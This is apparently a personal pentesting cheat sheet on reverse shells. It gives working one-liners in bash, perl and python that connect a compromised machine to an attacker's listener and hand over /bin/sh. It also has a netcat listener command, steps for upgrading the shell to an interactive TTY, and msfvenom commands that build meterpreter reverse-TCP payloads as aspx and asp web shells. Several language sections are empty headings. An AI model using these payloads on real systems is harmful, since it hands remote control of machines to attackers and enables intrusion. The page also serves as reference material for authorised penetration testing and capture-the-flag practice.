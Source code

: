 # shells

## Upgrading simple shells to interactive TTYs

```bash
pwned-box$ ^Z                     # suspend the process
host-machine$ echo $TERM          # get the terminal type
host-machine$ stty -a             # get the number of rows/cols
host-machine$ stty raw -echo      # convert terminal to raw
host-machine$ fg                  # re-open the reverse shell
pwned-box$ reset                  # reset the terminal of the reverse shell
pwned-box$ export SHELL=bash      # set the TTY settings: SHELL, TERM, and dimensions
pwned-box$ export TERM=screen
pwned-box$ stty rows <n_rows> cols <n_cols>
```

## reverse shells

### bash
- Tested using
  - Active machine: `Kali Linux 5.7.0`
  - Passive machine: `bash 5.1.4(1)-release` (Kali Linux vagrant box)
- Be sure that `bash` is in use, not `zsh`!

```
# set up netcat listener on active machine
nc -l -vvv -p (nc listener port)

# create reverse shell
# - bash -i :: start interactive bash shell
# - >&      :: redirect both stdout and stderr (fd 1 and 2)
# - /dev/tcp/ip/port :: bash specific syntax for TCP socket connection to ip:port
# - 0<&1    :: redirect fd 1 (connected to the socket) to stdin

bash -i >& /dev/tcp/(active machine)/(nc listener port) 0<&1
```

### perl (untested)

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### python (untested)

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP (untested)

### ruby (untested)

### netcat 

### java

### xterm

## msfvenom

### aspx

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx
```

### asp (asp.net)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

## References
- [Pentestmonkey Reverse Shell Cheatsheet](http://web.archive.org/web/20180702062128/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse shell with bash](http://web.archive.org/web/20180625050916/http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [The TTY demystified](http://www.linusakesson.net/programming/tty/)
- [Upgrading simple shells to fully interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- [msfvenom cheatsheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

